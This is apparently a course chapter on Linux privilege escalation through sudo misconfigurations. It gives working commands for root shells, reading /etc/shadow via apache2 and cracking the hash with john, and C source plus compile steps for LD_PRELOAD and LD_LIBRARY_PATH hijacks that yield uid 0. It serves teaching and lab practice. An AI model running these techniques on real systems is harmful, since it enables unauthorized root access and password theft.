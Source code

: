 # 6. Sudo

### Introduction

sudo is a program which lets users run other programs with the security privileges of other users. By default, that other user will be root.

A user generally needs to enter their password to use sudo, and they must be permitted access via rule(s) in the /etc/sudoers file.

Rules can be used to limit users to certain programs, and forgo the password entry requirement.

***

### Useful Commands

Run a program using sudo:

```bash
$ sudo <program>
```

Run a program as a specific user:

```bash
$ sudo –u <username> <program>
```

List programs a user is allowed (and disallowed) to run:

```bash
$ sudo -l
```

***

### Known Password

By far the most obvious privilege escalation with sudo is to use sudo as it was intended!

If your low privileged user account can use sudo unrestricted (i.e. you can run any programs) and you know the user’s password, privilege escalation is easy, by using the “switch user” (su) command to spawn a root shell:

```bash
$ sudo su
```

***

### Other Methods

If for some reason the su program is not allowed, there are many other ways to escalate privileges:

```bash
$ sudo -s
$ sudo -i
$ sudo /bin/bash
$ sudo passwd
```

***

### Shell Escape Sequences

Even if we are restricted to running certain programs via sudo, it is sometimes possible to “escape” the program and spawn a shell.

Since the initial program runs with root privileges, so does the spawned shell.

A list of programs with their shell escape sequences can be found here: [GTFOBins](https://gtfobins.github.io/)

1. List the programs your user is allowed to run via `sudo -l`
2. For each program in the list, see if there is a shell escape sequence on GTFOBins
3. If an escape sequence exists, run the program via sudo and perform the sequence to spawn a root shell.

***

### Abusing Intended Functionality

If a program doesn’t have an escape sequence, it may still be possible to use it to escalate privileges.

If we can read files owned by root, we may be able to extract useful information (e.g. passwords, hashes, keys).

If we can write to files owned by root, we may be able to insert or modify information.

1. List the programs your user is allowed to run via sudo:
   * ```bash
     $ sudo -l
     ...
     (root) NOPASSWD: /usr/sbin/apache2
     ```
   * Note that apache2 is in the list.
2. apache2 doesn’t have any known shell escape sequences, however when parsing a given config file, it will error and print any line it doesn’t understand
3. Run apache2 using sudo, and provide it the **/etc/shadow** file as a config file:
   * ```bash
     $ sudo apache2 -f /etc/shadow
     Syntax error on line 1 of /etc/shadow:
     Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84O WAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
     ```
4. Extract the root user’s hash from the file and crack it with john.
   * ```bash
     john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
     ```

***

### Environment Variables

Programs run through sudo can inherit the environment variables from the user’s environment.

In the **/etc/sudoers** config file, if the **env\_reset** option is set, sudo will run programs in a new, minimal environment.

The **env\_keep** option can be used to keep certain environment variables from the user’s environment.

The configured options are displayed when running `sudo -l`

#### 1. LD\_PRELOAD

LD\_PRELOAD is an environment variable which can be set to the path of a shared object (.so) file.

When set, the shared object will be loaded before any others.

By creating a custom shared object and creating an init() function, we can execute code as soon as the object is loaded.

**Limitations**

LD\_PRELOAD will not work if the real user ID is different from the effective user ID.

sudo must be configured to preserve the LD\_PRELOAD environment variable using the env\_keep option.

1. List the programs your user is allowed to run via sudo:
   * ```bash
     $ sudo -l
     Matching Defaults entries for user on this host:
     env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
     ...
     ```
   * Note that the env\_keep option includes the LD\_PRELOAD environment variable.
2. Create a file (preload.c) with the following contents:
   * ```c
     #include <stdio.h>
     #include <sys/types.h>
     #include <stdlib.h>
     void _init() {
     	unsetenv("LD_PRELOAD");
     	setresuid(0,0,0);
     	system("/bin/bash -p");
     }
     ```
3. Compile preload.c to preload.so:
   * ```bash
     $ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
     ```
4. Run any allowed program using sudo, while setting the LD\_PRELOAD environment variable to the full path of the preload.so file:
   * ```bash
     $ sudo LD_PRELOAD=/tmp/preload.so apache2
     # id
     uid=0(root) gid=0(root) groups=0(root)
     ```

#### 2. LD\_LIBRARY\_PATH

The LD\_LIBRARY\_PATH environment variable contains a set of directories where shared libraries are searched for first.

The `ldd` command can be used to print the shared libraries used by a program:

```bash
$ ldd /usr/sbin/apache2
```

By creating a shared library with the same name as one used by a program, and setting LD\_LIBRARY\_PATH to its parent directory, the program will load our shared library instead.

1. Run ldd against the apache2 program file:
   * ```bash
     $ ldd /usr/sbin/apache2
     linux-vdso.so.1 => (0x00007fff063ff000)
     ...
     libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f7d4199d000)
     libdl.so.2 => /lib/libdl.so.2 (0x00007f7d41798000)
     libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f7d41570000)
     /lib64/ld-linux-x86-64.so.2 (0x00007f7d42e84000)
     ```
   * Hijacking shared objects using this method is hit or miss. Choose one from the list and try it (libcrypt.so.1 seems to work well).
2. Create a file (library\_path.c) with the following contents:
   * ```c
     #include <stdio.h>
     #include <stdlib.h>
     static void hijack() __attribute__((constructor));
     void hijack() {
     	unsetenv("LD_LIBRARY_PATH");
     	setresuid(0,0,0);
     	system("/bin/bash -p");
     }
     ```
3. Compile library\_path.c into libcrypt.so.1:
   * ```bash
     $ gcc -o libcrypt.so.1 -shared -fPIC library_path.c
     ```
4. Run apache2 using sudo, while setting the LD\_LIBRARY\_PATH environment variable to the current path (where we compiled library\_path.c):
   * ```bash
     $ sudo LD_LIBRARY_PATH=. apache2
     # id
     uid=0(root) gid=0(root) groups=0(root)
     ```

***
